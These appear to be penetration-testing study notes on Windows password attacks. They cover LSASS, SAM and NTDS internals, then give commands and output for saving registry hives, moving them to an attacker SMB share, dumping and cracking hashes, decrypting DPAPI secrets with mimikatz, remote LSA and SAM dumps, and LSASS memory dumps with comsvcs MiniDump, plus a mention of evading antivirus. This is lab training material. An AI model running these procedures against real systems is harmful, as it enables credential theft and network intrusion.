




# Windows Password Attacks

## Windows Systems

### Authentication Process

The Windows client authentication process involves multiple modules for logon, credential retrieval, and verification. Among the various authentication mechanisms in Windows, Kerberos is one of the most widely used and complex. The Local Security Authority (_LSA_) is a protected subsystem that authenticates users, manages local logins, oversees all aspects of local security, and provides services for translating between user names and security identifiers (_SIDs_).

The security subsystems maintains security policies and user accounts on a computer system. On a DC, these policies and accounts apply to the entire domain and are stored in AD. Additionally, the LSA subsystem provides services for access control, permission checks, and the generation of security audit messages.


Local interactive logon is handled through the coordination of several components: the logon process (_WinLogon_), the logon user interface process (_LogonUI_), credential providers, the Local Security Authority Subsystem Service (_LSASS_), one or more authentication packages, and either the Security Accounts Manager (_SAM_) or AD. Authentication packages, in this context, are Dynamic-Link-Libraries (_DLLs_) responsible for performing authentication checks. For example, for non-domain-joined and interactive logins, the Msv1_0.dll authentication package is typically used.

WinLogon is a trusted system process responsible for managing security-related user interactions, such as:

- launching LogonUI to prompt for credentials at login
- handling password changes
- locking and unlocking the workstation

To obtain a user's account name and password, WinLogon relies on credential providers installed on the system. These credential providers are CDM objects implemented as DLLs.

WinLogon is the only process that intercepts login requests from the keyboard, which are sent via RPC messages from Win32k.sys. At logon, it immediately launches the LogonUI application to present the graphical user interface. Once the user's credentials are collected by the credential provider, WinLogon passes them to the Local Security Authority Subsystem Service (_LSASS_) to authenticate the user.

#### LSASS

... is compromised of multiple modules and governs all authentication processes. Located at ```%SystemRoot%\System32\Lsass.exe``` in the file system, it is responsible for enforcing the local security policy, authentication users, and forwarding security audit logs to the Event Log. In essence, LSASS servers are the gatekeeper in Windows-based OS.

| Authentication Packages | Description |
| ----------------------- | ----------- |
| Lsasrv.dll | the LSA Server service both enforces security policies and acts as the security package manager for the LSA; the LSA contains the Negotiate function, which selects either the NTLM or Kerberos protocol after determining which protocol is to be successful |
| Msv1_0.dll | authentication package for local machine logons that don't require custom authentication |
| Samsrv.dll | the Security Accounts Manager (_SAM_) stores local security accounts, enforces locally stored policies, and supports APIs |
| Kerberos.dll | security package loaded by the LSA for Kerberos-based authentication on a machine |
| Netlogon.dll | network-based logon service |
| Ntdsa.dll | the library is used to create new records and folders in the Windows registry |

Each interactive logon session creates a separate instance of the WinLogon service. The Graphical Identification and Authentication (_GINA_) architecture is loaded into the process area used by WinLogon, receives and processes the credentials, and invokes the authentication interfaces via the LSALogonUser function.

#### SAM Database

The Security Account Manager (_SAM_) is a database file in Windows OS that stores user account credentials. It is used to authenticate both local and remote users and uses cryptographic protections to prevent unauthorized access. User passwords are stored in hashes in the registry, typically in the form of either LM or NTLM hashes. The SAM file is located at ```%SystemRoot%\system32\config\SAM``` and is mounted under ```HKLM\SAM```. Viewing or accessing this file requires SYSTEM level privileges.

Windows system can be assigned to either a workgroup or domain during setup. If the system has been assigned to a workgroup, it handles the SAM database locally and stores all existing users locally in this database. However, if the system has been joined to a domain, the DC must validate the credentials from the AD database (_ntds.dit_), which is stored in ```%SystemRoot%\ntds.dit```.

To improve protection against offline cracking of the SAM database, Microsoft introduced a feature in Windows NT 4.0 called SYSKEY (_syskey.exe_). When enabled, SYSKEY partially encrypts the SAM file on disk, ensuring that password hashes for all local accounts are encrypted with a system-generated key.

#### Credential Manager



Credential Manager is a built-in feature of all Windows OS that allows users to store and manage credentials used to access network resources, websites, and applications. These saved credentials are stored per user profile in the user's Credential Locker. The credentials are encrypted and stored in at ```C:\Users\[Username]\AppData\Local\Microsoft\[Vault/Credentials]\```.

There are various methods to decrypt credentials saved using Credential Manager.

#### NTDS

It is very common to encounter network environments where Windows systems are joined to a Windows domain. This setup simplifies centralized management, allowing admins to efficiently oversee all systems within their organization. In such environments, logon requests are sent to DCs within the same AD forest. Each DC hosts a file called NTDS.dit, which is synchronized across all DCs, with the exception of Read-Only DCs.

NTDS.dit is a database file that stores AD data, including but not limited to:

- user accounts (_username & password hashes_)
- group accounts
- computer accounts
- group policy objects

### Attacking SAM, SYSTEM, and SECURITY

With administrative access to a Windows system, you can attempt to quickly dump the files associated with the SAM database, transfer them to your attack host, and begin cracking the hashes offline. Performing this process offline allows you to continue your attacks without having to maintain an active session with the target.

#### Registry Hives

There are three registry hives you can copy if you have local administrative access to a target system, each serving a specific purpose when it comes to dunping and cracking password hashes.

| Registry Hive | Description |
| ------------- | ----------- |
| HKLM\SAM | contains password hashes for local user accounts; these hashes can be extracted and cracked to reveal plaintext passwords |
| HKLM\SYSTEM | stores the system boot key, which is used to encrypt the SAM database; this key is required to decrypt the hashes |
| HKLM\SECURITY | contains sensitive information used by the LSA, including cached domain credentials, cleartext passwords, DPAPI keys, and more |

##### Using reg.exe to copy Registry Hives

You can back up these hives using the reg.exe utility.

```
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

If you're only interested in dumping the hashes of local users, you need only HKLM\SAM and HKLM\SYSTEM. However, it's often useful to save HKLM\SECURITY as well, since it can contain cached domain user credentials on domain-joined systems, along with other valuable data. Once these hives are saved offline, you can use various methods to transfer them to your attack host.

##### Creating a Share with smbserver

To create the share, you simply run ```smbserver.py -smb2support```, specify a name for the share, and point to the local directory on your attack host where the hive will be stored. The ```-smb2support``` flag ensures compatibility with newer versions of SMB. If you do not include this flag, newer Windows systems may fail to connect to the share, as SMBv1 is disabled by default due to numerous severe vulns and publicly available exploits.

```bash
d41y@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

##### Moving Hive Copies to Share

Once the share is running on your attack host, you can use the ```move``` command on the Windows target to transfer the hive copies to the share.

```
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

You can confirm that your hive copies were successfully moved to the share by navigating to the shared directory on your attack host and using ```ls``` to list the files:

```bash
d41y@htb[/htb]$ ls

sam.save  security.save  system.save
```

#### Dumping Hashes with secretsdump

One particularly useful tool for dumping hashes offline is Impacket's secretsdump.

Using secretsdump is straightforward. You simply run the script with Python and specify each of the hive files you retrieved from the target host:

```bash
d41y@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
[*] NL$KM 
 0000   D7 0A F4 B9 1E 3E 77 34  94 8F C4 7D AC 8F 60 69   .....>w4...}..`i
 0010   52 E1 2B 74 FF B2 08 5F  59 FE 32 19 D6 A7 2C F8   R.+t..._Y.2...,.
 0020   E2 A4 80 E0 0F 3D F8 48  44 98 87 E1 C9 CD 4B 28   .....=.HD.....K(
 0030   9B 7B 8B BF 3D 59 DB 90  D8 C7 AB 62 93 30 6A 42   .{..=Y.....b.0jB
NL$KM:d70af4b91e3e7734948fc47dac8f606952e12b74ffb2085f59fe3219d6a72cf8e2a480e00f3df848449887e1c9cd4b289b7b8bbf3d59db90d8c7ab6293306a42
[*] Cleaning up... 
``` 

Here you see that secretsdump successfully dumped the local SAM hashes, along with data from hklm\security, including cached domain logon information and LSA secrets such as the machine and user keys for DPAPI.

Notice that the first step secretsdump performs is retrieving the system bootkey before proceeding to dump the local SAM hashes. This is necessary because the bootkey is used to encrypt and decrypt the SAM database. Without it, the hashes cannot be decrypted - which is why having copies of the relevant registry hives is crucial.

Notice the following line:

```
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```

This tells you how to interpret the output and which hashes you can attempt to crack. Most modern Windows OS store passwords as NT hashes. Older systems may store passwords as LM hashes, which are weaker and easier to crack. Therefore, LM hashes are useful if the target is running an older version of Windows.

With this in mind, you can copy the NT hashes associated with each user account into a text file and begin cracking passwords. It is helpful to note which hash corresponds to which user to keep track of the results.

#### Cracking Hashes with Hashcat

Once you have the hashes, you can begin cracking them using Hashcat. Hashcat supports a wide range of hashing algorithms.

You can populate a text file with the NT hashes you were able to dump:

```bash
d41y@htb[/htb]$ sudo vim hashestocrack.txt

64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
6f8c3f4d3869a10f3b4f0522f537fd33
184ecdda8cf1dd238d438c4aea4d560d
f7eb9c06fafaa23c4bcf22ba6781c1e2
```

##### Running Hashcat against NT hashes

Hashcat supports many different modes, and selecting the right one depends largely on the type of attack and the specific hash type you want to crack.

```bash
d41y@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

f7eb9c06fafaa23c4bcf22ba6781c1e2:dragon          
6f8c3f4d3869a10f3b4f0522f537fd33:iloveme         
184ecdda8cf1dd238d438c4aea4d560d:adrian          
31d6cfe0d16ae931b73c59d7e0c089c0:                
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: dumpedhashes.txt
Time.Started.....: Tue Dec 14 14:16:56 2021 (0 secs)
Time.Estimated...: Tue Dec 14 14:16:56 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    14284 H/s (0.63ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 5/5 (100.00%) Digests
Progress.........: 8192/14344385 (0.06%)
Rejected.........: 0/8192 (0.00%)
Restore.Point....: 4096/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: newzealand -> whitetiger

Started: Tue Dec 14 14:16:50 2021
Stopped: Tue Dec 14 14:16:58 2021
```

You can see from the output that Hashcat was successful in cracking three of the hashes. Having these passwords can be useful in many ways. For example, you could attempt to use the cracked credentials to access other systems on the network. It is very common for users to reuse passwords across different work and personal accounts. Understanding and applying this technique can be valuable during assessments. You will benefit from it anytime you encounter a vulnerable Windows system and gain administrative rights to dump the SAM database.

Keep in mind that this is a well-known technique, and administrators may have implemented safeguards to detect or prevent it. Several detection and mitigation strategies are documented within the MITRE ATT&CK framework.

#### DCC2 Hashes

hklm\security contains cached domain logon information, specifically in the form of DCC2 hashes. These are local, hashed copies of network credential hashes. An example is:

```
inlanefreight.local/Administrator:$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25
```

This type of hash is much more difficult to crack than an NT hash, as it uses PBKDF2. Additionally, it cannot be used for lateral movement with techniques like Pass-the-Hash. The Hashcat mode for cracking DCC2 hashes is 2100.

```bash
d41y@htb[/htb]$ hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt

<SNIP>

$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25:ihatepasswords
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 2100 (Domain Cached Credentials 2 (DCC2), MS Cache 2)
Hash.Target......: $DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25
Time.Started.....: Tue Apr 22 09:12:53 2025 (27 secs)
Time.Estimated...: Tue Apr 22 09:13:20 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     5536 H/s (8.70ms) @ Accel:256 Loops:1024 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 149504/14344385 (1.04%)
Rejected.........: 0/149504 (0.00%)
Restore.Point....: 148992/14344385 (1.04%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:9216-10239
Candidate.Engine.: Device Generator
Candidates.#1....: ilovelloyd -> gerber1
Hardware.Mon.#1..: Util: 95%

Started: Tue Apr 22 09:12:33 2025
Stopped: Tue Apr 22 09:13:22 2025
```

Note the cracking speed of 5536 H/s. On the same machine, NTLM hashes can be cracked at 4605.4 kH/s. This means that cracking DCC2 hashes is approximately 800 times slower. The exact numbers will depend heavily on the hardware available, of course, but the takeaway is that strong passwords are often uncrackable within typical pentests.

#### DPAPI

In addition to the DCC2 hashes, you previously saw that the machine and user keys for DPAPI were also dumped from hklm\security. The Data Protection Application Programming Interface, or DPAPI, is a set of APIs in Windows OS used to encrypt and decrypt data blobs on a per-user basis. These blobs are utilized by various Windows OS features and third-party applications. Below are just a few examples of applications that use DPAPI and how they use it:

| Application | Use of DPAPI |
| ----------- | ------------ |
| Internet Explorer | password form auto-completion data |
| Google Chrome | password from auto-completion data |
| Outlook | passwords for email accounts |
| Remote Desktop Connection | saved credentials for connections to remote machines |
| Credential Manager | saved credentials for accessing shared resources, joining wireless networks, VPNs and more |

DPAPI encrypted credentials can be decrypted manually with tools like Impacket's dpapi, mimikatz, or remotely with DonPAPI.

```
C:\Users\Public> mimikatz.exe
mimikatz # dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
> Encrypted Key found in local state file
> Encrypted Key seems to be protected by DPAPI
 * using CryptUnprotectData API
> AES Key is: efefdb353f36e6a9b7a7552cc421393daf867ac28d544e4f6f157e0a698e343c

URL     : http://10.10.14.94/ ( http://10.10.14.94/login.html )
Username: bob
 * using BCrypt with AES-256-GCM
Password: April2025!
```

#### Remote Dumping & LSA Secrets Considerations

With access to credentials that have local administrator privileges, it is also possible to target LSA secrets over the network. This may allow you to extract credentials from running services, scheduled tasks, or applications that store passwords using LSA secrets.

##### Dumping LSA Secrets Remotely

```bash
d41y@htb[/htb]$ netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

SMB         10.129.42.198   445    WS01     [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:FRONTDESK01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01     [+] WS01\bob:HTB_@cademy_stdnt!(Pwn3d!)
SMB         10.129.42.198   445    WS01     [+] Dumping LSA secrets
SMB         10.129.42.198   445    WS01     WS01\worker:Hello123
SMB         10.129.42.198   445    WS01      dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
SMB         10.129.42.198   445    WS01     NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
SMB         10.129.42.198   445    WS01     [+] Dumped 3 LSA secrets to /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.secrets and /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.cached
```

##### Dumping SAM Remotely

```bash
d41y@htb[/htb]$ netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam

SMB         10.129.42.198   445    WS01      [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:WS01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01      [+] FRONTDESK01\bob:HTB_@cademy_stdnt! (Pwn3d!)
SMB         10.129.42.198   445    WS01      [+] Dumping SAM hashes
SMB         10.129.42.198   445    WS01      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
SMB         10.129.42.198   445    WS01     bob:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
SMB         10.129.42.198   445    WS01     sam:1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc:::
SMB         10.129.42.198   445    WS01     rocky:1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321:::
SMB         10.129.42.198   445    WS01     worker:1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
SMB         10.129.42.198   445    WS01     [+] Added 8 SAM hashes to the database
```

### Attacking LSASS

LSASS is a core Windows process responsible for enforcing security policies, handling user authentication, and storing sensitive credential material in memory.


Upon initial logon, LSASS will:

- cache credentials locally in memory
- create access tokens
- enforce security policies
- write to Windows' security log

#### Dumping LSASS Process Memory

Similar to the process of attacking the SAM database, it would be wise for you first to create a copy of the contents of LSASS process memory via the generation of a memory dump. Creating a dump file lets you extract credentials offline using your attack host. Keep in mind conducting attacks offline gives you more flexibility in the speed of your attack and requires less time spent on the target system. There are countless methods you can use to create a memory dump.

##### Task Manager Method

With access to an interactive graphical session on the target, you can use task manager to create a memory dump.

1. open Task Manager
2. select the ```Processes``` tab
3. find and click the ```Local Security Authority Process```
4. select ```Create dump file```

A file called ```lsass.DMP``` is created and saved in ```%temp%```. This is the file you will transfer to your attack host.

##### Rundll32.exe & Comsvcs.dll Method

The Task Manager method is dependent on you having a GUI-based interactive session with a target. You can use an alternative method to dump LSASS process memory through a command-line utility called ```rundll32.exe```. This way is faster than the Task Manager method and more flexible because you may gain a shell session on a Windows host with only access to the command line. It is important to note that modern AV tools recognize this method as malicious activity.

Before issuing the command to create the dump file, you must determine what process ID (_PID_) is assigned to ```lsass.exe```. This can be done from cmd or PowerShell.

For cmd you can use:

```
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
Registry                        96 N/A
smss.exe                       344 N/A
csrss.exe                      432 N/A
wininit.exe                    508 N/A
csrss.exe                      520 N/A
winlogon.exe                   580 N/A
services.exe                   652 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc
svchost.exe                    776 PlugPlay
svchost.exe                    804 BrokerInfrastructure, DcomLaunch, Power,
                                   SystemEventsBroker
fontdrvhost.exe                812 N/A
```

For PowerShell you can use:

```ps
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

Once you have the PID assigned to the LSASS process, you can create a dump file:

```ps
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

With this command, you are running ```rund32.dll``` to call an exported function of ```comsvcs.dll``` which also calls the MiniDumpWriteDump (_MiniDump_) function to dump the LSASS process memory to a specified directory (_C:\lsass.dmp_). Recall that most modern AV tools recognize this as malicious activity and prevent the command from executing. In these cases, you will need to consider ways to bypass or disable the AV tool you are facing.

If you manage to run this command and generate the ```lsass.dmp``` file, you can proceed to transfer the file onto your attack host to attempt to extract any credentials that may have been stored in LSASS process memory.

#### Using Pypykatz to extract Credentials

Once you have the dump file on your attack host, you can use a powerful tool called [pypykatz](https://github.com/skelsec/pypykatz) to extract credentials from the ```.dmp``` file. Pypykatz is an implementation of Mimikatz written entirely in Python. The fact that it is written in Python allows you to run it on Linux-based attack hosts. At the time of writing, Mimikatz only runs on Windows systems, so to use it, you would either need to use a Windows attack host or you would need to run Mimikatz directly on the target, which is not an ideal scenario. This makes Pypykatz an appealing alternative because all you need is a copy of the dump file, and you can run it offline from your Linux-based attack host.

Recall that LSASS stores credentials that have active logon sessions on Windows systems. When you dumped LSASS process memory into the file, you essentially took a "snapshot" of what was in memory at that point in time. If there were any active logon sessions, the credentials used to establish them will be present.

The command initiates the use of pypykatz to parse the secrets hidden in the LSASS process memory dump. You use ```lsa``` in the command line because LSASS is a subsystem of the Local Security Authority, then you specify the data source as a minidump file, proceeded by the path to the dump file stored on your attack host. Pypykatz parses the dump file and outputs the findings:

```bash
d41y@htb[/htb]$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 

INFO:root:Parsing file /home/peter/Documents/lsass.dmp
FILE: ======== /home/peter/Documents/lsass.dmp =======
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
    == MSV ==
        Username: bob
        Domain: DESKTOP-33E7O54
        LM: NA
        NT: 64f12cddaa88057e06a81b54e73b949b
        SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
        DPAPI: NA
    == WDIGEST [14ab89]==
        username bob
        domainname DESKTOP-33E7O54
        password None
        password (hex)
    == Kerberos ==
        Username: bob
        Domain: DESKTOP-33E7O54
    == WDIGEST [14ab89]==
        username bob
        domainname DESKTOP-33E7O54
        password None
        password (hex)
    == DPAPI [14ab89]==
        luid 1354633
        key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
        masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
        sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605

== LogonSession ==
authentication_id 1354581 (14ab55)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354581
    == MSV ==
        Username: bob
        Domain: DESKTOP-33E7O54
        LM: NA
        NT: 64f12cddaa88057e06a81b54e73b949b
        SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
        DPAPI: NA
    == WDIGEST [14ab55]==
        username bob
        domainname DESKTOP-33E7O54
        password None
        password (hex)
    == Kerberos ==
        Username: bob
        Domain: DESKTOP-33E7O54
    == WDIGEST [14ab55]==
        username bob
        domainname DESKTOP-33E7O54
        password None
        password (hex)

== LogonSession ==
authentication_id 1343859 (148173)
session_id 2
username DWM-2
domainname Window Manager
logon_server 
logon_time 2021-12-14T18:14:25.248681+00:00
sid S-1-5-90-0-2
luid 1343859
    == WDIGEST [148173]==
        username WIN-6T0C3J2V6HP$
        domainname WORKGROUP
        password None
        password (hex)
    == WDIGEST [148173]==
        username WIN-6T0C3J2V6HP$
        domainname WORKGROUP
        password None
        password (hex)
```

